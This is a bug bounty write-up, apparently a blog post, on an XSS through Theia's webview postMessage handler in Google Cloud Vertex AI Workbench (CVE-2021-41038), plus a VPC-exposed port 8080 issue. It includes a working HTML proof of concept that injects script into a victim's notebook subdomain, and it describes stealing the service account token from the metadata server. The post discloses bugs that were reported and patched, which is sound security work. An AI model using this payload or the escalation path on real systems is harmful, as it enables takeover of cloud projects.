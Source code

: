 +++
title = 'XSS using postMessage in Google Cloud Theia notebooks [Google VRP]'
date = 2023-01-15T20:12:33+05:30
+++

This write-up is a part of a series of write-ups about the bugs I and [Sivanesh](https://twitter.com/sivaneshashok) found in Google Cloud in 2022.  

While exploring Google Cloud’s Vertex AI Workbench, we noticed that we could create a workbench with Theia. Theia is the IDE that Google also uses in Cloud Shell. From reading previous research, we know that Theia implementations could be problematic.  

After deploying a Theia instance workbench, I noticed that the version was not the latest. So, I went Googling for known vulnerabilities. Although there were multiple known vulnerabilities in the installed version, not all of them were working. Either that specific feature was removed from the installation (e.g., mini-browser), or it would require unrealistic user interactions to exploit, like uploading a file and opening it themselves.  

However, it was not the case with [CVE-2021-41038](https://www.cvedetails.com/cve/CVE-2021-41038/). This bug exploits Theia's webview extension, which was enabled with our deployment. So, I went ahead and created a PoC:  

```html
<html>
  <body>
    <script>
      function exploit(){
        w = open("https://{VICTIM-SUBDOMAIN}-dot-us-west1.notebooks.googleusercontent.com/webview/index.html?id=a");
        window.setTimeout(function(){w.postMessage({channel: "content", args: {options: {allowScripts: true}, contents: "<img src=x onerror=\"document.write('XSS here! '+document.domain)\">"}}, "*");}, 5000);
      }
    </script>
    <button onclick="exploit()">Click here</button>
  </body>
</html>
```  

And sure enough, it worked, and the alert popped!  

When a user-managed Vertex AI Workbench is created, it uses the project's default compute engine service account. Since that service account has access to all the project resources, compromising it would allow an attacker to take complete control of the victim’s project.  

Hence, by using this XSS, an attacker could fetch the service account token from the metadata server and compromise the entire project.  

## Ways to obtain victim's instance subdomain:
1. By default, every person's subdomain is leaked to several third-party domains via referer. Some of those domains are:  

    1. https://open-vsx.org
    2. https://openvsxorg.blob.core.windows.net
    3. https://schemastore.azurewebsites.net  

2. Anyone with access to these domains or vulnerabilities in these servers can leak the subdomain  

## Reward:  
We reported this issue to Google as a part of their Vulnerability Reward Program. They awarded us with a $3133.70 bounty.  

## Bonus bug:  

Another behavior that we noticed in Theia was inspired by this [bug](https://mbrancato.github.io/2021/12/28/rce-dataflow.html), in which the researcher talks about how leaving a service unsecured in the internal cloud VPC could lead to security issues. To summarize, although the port is only open inside the VPC,  

1. An attacker with low privileges in the project could exploit such behavior to escalate privileges or move laterally.  
2. Admins tend to open port ranges to the internet for convenience.  

To understand how this affects Theia, let’s see how the authorization for Theia works. As mentioned above, the Theia instance was hosted on a subdomain of `notebooks.googleusercontent.com`. When users try to access this domain, they are redirected through an OAuth-like flow, where they are checked for permissions. If they have the necessary permissions, they would be redirected back to the notebook domain, and cookies get assigned.  

However, since port 8080, which Theia uses, is open inside the VPC, anyone inside the VPC could access it by directly using the IP address of the notebook instead of the domain. As explained above, since the notebooks contain the authorization token of the default compute engine service account, an attacker could easily use this to escalate privileges to the Project Editor level.  

Secondly, as stated above, it is common for admins to open port ranges to the internet for various reasons. Port 8080 is one of the most commonly opened ports.  

We reported this to Google VRP. However, they were already aware of this issue and were in the process of removing Theia from the list of options for Vertex AI Workbench.  

That ended up being the patch for both of these bugs. Theia was removed from Vertex AI Workbench.



